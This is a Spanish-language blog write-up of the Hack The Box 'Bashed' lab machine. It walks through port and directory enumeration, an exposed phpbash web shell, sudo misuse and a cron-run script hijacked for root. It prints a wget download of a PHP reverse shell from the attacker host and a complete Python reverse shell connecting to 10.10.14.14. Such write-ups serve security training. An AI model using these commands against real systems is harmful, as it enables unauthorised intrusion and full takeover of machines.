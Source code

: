 ```yaml
---
layout: post
title: Hack The Box Bashed Write-Up
date: 2025-01-26
categories: [Write-Ups, HackTheBox, Machine, Easy]
tags: [Easy]
image: /assets/post_details/bashed/bashed_front_image.png
---
```

# Hack The Box: Bashed Write-Up
## Enumeration
Realizamos la enumeración de puertos y de servicios, en este caso tiene el puerto 80 abierto, en el que se aloja un Apache con una versión reciente, el parece correr una pagina portfolio de desarrollo de `Arrexel`.
```bash
nmap -p80 -sCV -n -Pn 10.10.10.68 -oN full_scan.txt
```
![nmap](/assets/post_details/bashed/bashed_nmap.png)
### Blog Arrexel - HTTP(80)
La pagina es un blog, en el que el usuario `Arrexel` ha colgado un post, en el enseña su nueva utilidad la cual es una web-shell, llamada [phpbash](https://github.com/Arrexel/phpbash).
![web](/assets/post_details/bashed/bashed_web.png)
#### Fuzzing
Realizamos un escaneo de directorios con la herramienta **gobuster** con la que encontramos el directorio `/dev`, este directorio podria contener herramientas de desarrollo o una pagina de producción.
```bash
gobuster dir -u http://10.10.10.68/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -t 20
```
![fuzzing](/assets/post_details/bashed/bashed_fuzzing.png)

En este caso es un **Directory Listing** con la herramienta del usuario `Arrexel`.
![directory listing](/assets/post_details/bashed/bashed_directory-listing.png)
#### FootHold Persistence Shell
Con esta herramienta, podemos lanzar comandos a nivel de sistema con el usuario que corre el servicio apache, el cual es `www-data`.
![phpbash](/assets/post_details/bashed/bashed_phpbash-persistence.png)

Esta bien tener una shell a nivel de buscador, pero por mayor comodidad vamos a lanzarnos una shell en nuestra maquina, hacemos uso de la rev shell [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/tree/master), ya que se esta ejecutando codigo php, seremos capaces de lanzar esta rev shell. 
```bash
www-data@bashed:/var/www/html/dev# cd ..

www-data@bashed:/var/www/html# cd uploads
# Local machine
python3 -m http.server 80

www-data@bashed:/var/www/html# wget http://10.10.14.14/php-reverse-shell
```
![getshell](/assets/post_details/bashed/bashed_getshell.png)

Una vez tenemos la shell, podemos obtener la flag del usuario `arrexel`.
![user flag](/assets/post_details/bashed/bashed_flag.png)
## PrivEsc
### arrexel -> scriptmanager
Si realizamos un `sudo -l`, vemos que tenemos privilegio sobre el usuario `scriptmanager` debido a una desconfiguración de los **sudoers**.
![sudo -l](/assets/post_details/bashed/bashed_sudo-l.png)

Con `sudo -u scriptmanager bash` podemos lanzarnos una bash como el usuario `scriptmanager`, deberemos de hacer tratamiento de tty.
```bash
sudo -u scriptmanager bash -i
```
### scriptmanager -> root
Enumerando las procesos, vemos que el usuario `root` esta ejecutando cada par de minutos un archivo python.
```bash
ps aux
```
![ps aux](/assets/post_details/bashed/bashed_ps-aux.png)

Si listamos el directorio raiz, vemos que la carpeta `scripts` es creada por el usuario `scriptmanager`.
![](/assets/post_details/bashed/bashed_scripts-folder.png)

Es esta carpeta la que contiene el fichero el cual estaba ejecutando el usuario `root`, este fichero lo podemos modificar con el usuario `scriptmanager`.
```bash
scriptmanager@bashed:/$ ls -la /scripts
test.py  test.txt
```
![files](/assets/post_details/bashed/bashed_scriptmanager-files.png)

Por lo que vamos a meter una rev-shell de python para que asi cuando ejecute el usuario `root` el script, nos lance la shell como usuario `root`.
```python
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.14",1234));
os.dup2(s.fileno(),0); 
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
import pty; 
pty.spawn("bash");
```
![getsystem](/assets/post_details/bashed/bashed_getsystem.png)